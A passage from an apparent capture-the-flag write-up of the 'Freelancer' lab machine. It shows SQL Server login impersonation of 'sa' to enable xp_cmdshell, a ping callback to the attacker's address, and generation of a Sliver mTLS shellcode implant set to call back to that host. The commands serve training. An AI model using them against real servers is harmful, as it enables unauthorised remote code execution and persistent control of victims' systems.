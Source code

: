 ## Foothold
### Code Execution via SQL Terminal

Next we headed back to the `/admin` endpoint and found several tasks we could perform as admin and also a `SQL Terminal` from which we could execute `SQL statements`.

- [http://freelancer.htb/admin/](http://freelancer.htb/admin/)

We `impersonated` the `SA` user to enable `xp_cmdshell` and to gain `code execution`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'ping -n 3 10.10.14.58';
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -envi tun0 icmp
[sudo] password for kali: 
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:01:44.613474 ip: (tos 0x0, ttl 127, id 61060, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 151, length 40
17:01:44.613564 ip: (tos 0x0, ttl 64, id 61998, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 151, length 40
17:01:45.623297 ip: (tos 0x0, ttl 127, id 61761, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 152, length 40
17:01:45.623303 ip: (tos 0x0, ttl 64, id 62161, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 152, length 40
17:01:46.639006 ip: (tos 0x0, ttl 127, id 62452, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 153, length 40
17:01:46.639038 ip: (tos 0x0, ttl 64, id 62172, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 153, length 40
```

The easiest way to get a shell on the box was to use `Sliver` to bypass whatever was running on the box.

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

```c
sliver > generate --mtls 10.10.14.58 --os windows --arch amd64 --disable-sgn --format shellcode --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 21s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /tmp/ADVERSE_JUICE.bin
```
